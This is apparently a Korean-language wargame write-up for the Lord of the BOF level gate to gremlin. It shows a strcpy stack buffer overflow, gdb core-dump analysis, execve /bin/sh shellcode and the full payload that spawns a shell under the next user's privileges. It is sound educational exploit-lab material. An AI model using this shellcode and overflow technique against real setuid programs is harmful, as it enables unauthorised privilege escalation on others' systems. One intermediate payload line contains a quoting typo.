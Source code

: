 1번 gate -> gremlin
===================

```  
id = 'gate'
pw = 'gate'
```

--------------------------------------------------------------
"ls" 명령어로 파일들 확인
```   
[gate@localhost gate]$ ls  
agremlin  gremlin.c  
```  

"cat gremlin.c"로 c파일 확인  
```  
[gate@localhost gate]$ cat gremlin.c
/*
	The Lord of the BOF : The Fellowship of the BOF
	- gremlin
	- simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
[gate@localhost gate]$  
```  

인자는 무조건 2개이상 주어야 되고  
2번째 인자값을 buffer에 복사 buffer값을 출력하는 구도  

### strcpy함수의 취약점   
>(srtingcopy)strcpy함수는 strcpy(인자1, 인자2); 일때<br>
>인자1에 인자 2의 값을 복사해주는데 이떄 인자1의 크기에 상관없이<br>
>인자 2의 모든 값을 복사해서 인자1의 영역너머를 우리가 변조할 수 있게됨<br>  

### 인자 전달방법
>파일을 실행할때는 "./파일명"으로 실행  <br>
>여기에 인자를 포함해서 전달하려면 뒤에 인자로 넣을 것 을 추가<br>   
>파이썬으로 전달하려면? ex) ./gremlin `python -c 'print "A"*100'`
  

## 공략시작
우리가 쓸 쉘코드
```  
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"  
```
크기 = 25bytes

스택 프레임 구조   
>buffer(256) | SFP(4) | ret addr(4)  

260byte모두 덮고 속에다가 (nop)\x90이랑 쉘코드 25바이트를 넣고 ret add를 찾아서 마지막 4byte를 후루룩

### gremlin파일 접근
우선 gremlin파일은 
```
[gate@localhost gate]$ ls -l
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Apr  7 21:42 gremlin.c
[gate@localhost gate]$ 
```
보이는 것과 같이 우리 다음레벨인 gremlin의 권한을 가지고있으므로 gdb를 쓸 수 없다.
  
    
디렉토리를 하나 만들고 그 속에다가 gremlin파일을 우리가 건드릴 수 있도록 복사를 해주자.
```
[gate@localhost gate]$ mkdir tmp
[gate@localhost gate]$ cp gremlin tmp
[gate@localhost gate]$ cd tmp 
[gate@localhost tmp]$ ls
gremlin
gate@localhost tmp]$
```
>tmp 디렉토리 생성후 cp명령어로 tmp디렉토리에 gremlin파일 복사 
  
 
  
### 페이로드
tmp파일 내에서 
./gremlin `python -c 'print "A"*260 + "\x90\x90\x90\x90"'`
을 넣어보자

```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*260  + "\x90\x90\x90\x90"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
[gate@localhost tmp]$ ls
core  gremlin                    
```
>core 파일이 생성되었다.


### 코어 파일 
먼저 해결책부터말하면
>core dumped가 되었을땐 core파일이 생길 것 이다.  
>그럼 그 코어 파일을 gdb로 연다음  
>메모리 뜯어서 ret addr 찾고  
>그 주소로 페이로드를 다시짜서 원본파일에 공격을 하면 성공이다.

```
[gate@localhost tmp]$ gdb -c core -q
Core was generated by `./gremlin AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0x90909090 in ?? ()
(gdb) 
```
  
> '-c'옵션을 꼭 주어서 gdb를 실행하자


```
(gdb)x/100x $esp
0xbffff9f0:	0xfb609090	0xbf00bfff	0xbffffa40	0x40013868
0xbffffa00:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffa10:	0x08048430	0x00000002	0xbffffa34	0x080482e0
0xbffffa20:	0x080484bc	0x4000ae60	0xbffffa2c	0x40013e90
0xbffffa30:	0x00000002	0xbffffb3e	0xbffffb48	0x00000000
0xbffffa40:	0xbffffc57	0xbffffc6a	0xbffffc81	0xbffffca0
0xbffffa50:	0xbffffcc2	0xbffffccc	0xbffffe8f	0xbffffeae
0xbffffa60:	0xbffffec8	0xbffffedd	0xbffffef9	0xbfffff04
0xbffffa70:	0xbfffff1c	0xbfffff29	0xbfffff31	0xbfffff42
0xbffffa80:	0xbfffff4c	0xbfffff5a	0xbfffff6b	0xbfffff79
0xbffffa90:	0xbfffff84	0xbfffff94	0xbfffffd4	0xbfffffe0
0xbffffaa0:	0x00000000	0x00000003	0x08048034	0x00000004
0xbffffab0:	0x00000020	0x00000005	0x00000006	0x00000006
0xbffffac0:	0x00001000	0x00000007	0x40000000	0x00000008
0xbffffad0:	0x00000000	0x00000009	0x08048380	0x0000000b
0xbffffae0:	0x000001f4	0x0000000c	0x000001f4	0x0000000d
0xbffffaf0:	0x000001f4	0x0000000e	0x000001f4	0x00000010
0xbffffb00:	0x0f8bfbff	0x0000000f	0xbffffb39	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb30:	0x00000000	0x00000000	0x38366900	0x2f2e0036
0xbffffb40:	0x6d657267	0x006e696c	0x41414141	0x41414141
0xbffffb50:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
[gate@localhost tmp]$
```
메모리 뜯어본 결과
>argv[1]에 넣었던 AAA~ 는 bffffb 40~50에서 시작되므로  
>넉넉 bffffb50으로 ret addr을 맞쳐주자  
>(그 뒤로 실행되다가 쉘코드를 만나면 쉘코드가 실행될 것 이다.)  
  
```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + ""x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$
```
쉘코드 넣고 주소만 \x50\xfb\xff\xbf로 바꿔서 실행하니 bash가 잘 실행됬다.  
이제 원본파일에다가 공격을 하고 다음 level의 비밀번호를 알아내자.
```
[gate@localhost tmp]$ cd
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + "\x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$ my-pass
euid = 501
hello bof world
```

----
### gremlin
```
id = 'gremlin'
pw = 'hello bof world'
```

   
     
       
### 추신
나는 core파일 생성후 정확한 ret addr를 얻는 방식이 마음에 들어 앞으로의 라업도 core파일을 이용해서 쓸 것 이다.
